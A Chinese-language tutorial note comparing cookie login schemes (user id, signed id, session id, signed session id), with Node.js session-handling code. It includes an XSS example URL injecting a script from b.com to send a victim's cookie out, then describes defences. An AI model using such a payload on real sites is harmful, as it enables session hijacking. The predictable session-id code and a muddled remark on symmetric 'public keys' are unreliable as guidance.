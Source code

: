 #### cookie用户登录凭证的三种方法：
###### 1. 用户id

实现：直接用用户id作为cookie来进行登录凭证

缺点：
- 在没有设置httpoly的时候，前端可以随意的篡改cookie
- 并且用户凭证可能会是一个数据对象，存储起来也是很耗费存储空间的
- 并且每次请求的时候，都带上这样的cookie会导致流量与带宽的浪费，影响传输速度
- 并且这些数据是非常私密敏感的，一旦泄露，后果可能会很严重。


###### 2. 用户id + 签名

实现（利用nodejs的crypto签名）：服务端将用户id结合自己本机的签名（可以是随机数）用crypto签名之后得到一个签名后的字符串，将该字符串传入到一个cookie中，然后将用户id传入到一个cookie中。当用户再次访问该服务器的时候会自动带上这两个cookie，后端服务器会将用户id结合之前的签名用crypto加密之后得到一个签名后的字符串，该字符串如果和前端发送的cookie的值相等，说明前端没有串改用户id，验证通过。

安全性：该方法其实设置为httpoly就可以解决cookie被前端篡改，但是不能预防中间人篡改。

安全性的保证：只有本机知道的签名与加密算法。加密算法可以通过前后端进行协商确定，但是签名一定是服务器才知道的，如果泄漏了这种方法就失效了。

优点与缺点：这种方法可以防止前端篡改cookie，但是并没有解决存储浪费、网络资源浪费、传输速度问题、每次需要传输敏感数据的问题。针对这些问题，可以通过session来进行优化改善。


###### 3. sessionid

上面一系列的问题就是session存在的意义。session最主要的是可以避免每次都传递敏感数据，其次sessionid的随机性可以阻止前端篡改cookie之后导致身份被冒充，解决资源浪费。

实现：虽然将所有数据都放在cookie中不可取，但是将口令sessionid放在cookie中还是可以的。口令一旦篡改，就丢失了映射关系，也无法修改服务端存在的数据了。并且session的有效期较短。普遍设置为20分钟，如果在20分钟内客户端和服务器端没有交互产生，服务器端就将数据删除。由于数据过期较短，并且在服务器存储数据安全性相对较高。口令sessionid的产生可以是一个随机数，然后为这个sessionid设置一个过期时间，保存在服务端的session中。服务器接收到请求后，如果请求中没有对应的cookie键值对，则生成一个sessionid并set-cookie，这个值是唯一不重复的，并且有超时时间。下次请求到来就根据相应的cookie到session中存取数据，如果没有交互的时间间隔没有超时则重新设置超时时间，直到停止交互的时间间隔大于规定的时间间隔，此时就需要删除数据，重新设置一个sessionid。（session可以存储到缓存服务器中）


```
var sessions = {};
var key = 'session_id';
var EXPIRES = 20 * 60 * 1000;
var generate = function () {
var session = {};
    session.id = (new Date()).getTime() + Math.random();
    session.cookie = {
        expire: (new Date()).getTime() + EXPIRES
    };
    sessions[session.id] = session;
    return session;
};

function (req, res) {
    var id = req.cookies[key];
    if (!id) {
        req.session = generate();
    } else {
        var session = sessions[id];
        if (session) {
            if (session.cookie.expire > (new Date()).getTime()) {
            // 更新超时时间
            session.cookie.expire = (new Date()).getTime() + EXPIRES;
            req.session = session;
        } else {
            // 未交互的时间间隔超时，删除旧数据，重新生成sessionid
            delete sessions[id];
            req.session = generate();
            }
        } else {
            // 如果session过期或者口令不对，重新生成session
            req.session = generate();
        }
    }
    handle(req, res);
}
```


缺点：由于sessionid是随机生成的，有一定的几率命中

###### 4. sessionid + 签名

实现：将sessionid用服务端的私钥进行签名。

缺点：通过xss来获取存储了口令的sessionid，比如a.com获取url中的hash字段并设置到其网站上，攻击者将如下网址发给某个已经登录的在线用户：

```
http://a.com/pathname#<script src="http://b.com/c.js"></script>
```
下面这个网站压缩成短网址：

```
https://dwz.cn/jaMf29sO
```
当该用户点击这个网站的时候，会执行hash部分，将登录的用户的cookie发送到b.com的服务器，因此b服务器就可以获取到cookie中的口令，然后用这个口令向a服务器获取用户的数据。

防止攻击的方法：整个过程中，在访问短网址的时候，在a服务端中可以通过将特殊字符或者标签转译。然后设置cookie在同域的时候允许发送，这个时候b是无法获取到cookie的。假设前面都失效了，b获取到cookie之后，a可以通过referer来判断是否是一个攻击。


#### 加密与签名：

- 签名指的是，传输中存在一个明文以及一个签名字符串，如果这个明文被篡改了，那么后端根据这个篡改后的明文算出来的签名不会和之前的签名字符串相等。
- 加密指的是，传输中不会存在明文，而是一个加密的内容。比如后端发送一个公钥给客户端，客户端利用这个公钥对数据进行加密，只有后端与该公钥匹配的秘钥才能得到解密。这里是非对称加密，对称加密是加密解密都是公钥，这个公钥很容易被其他中间人获取。


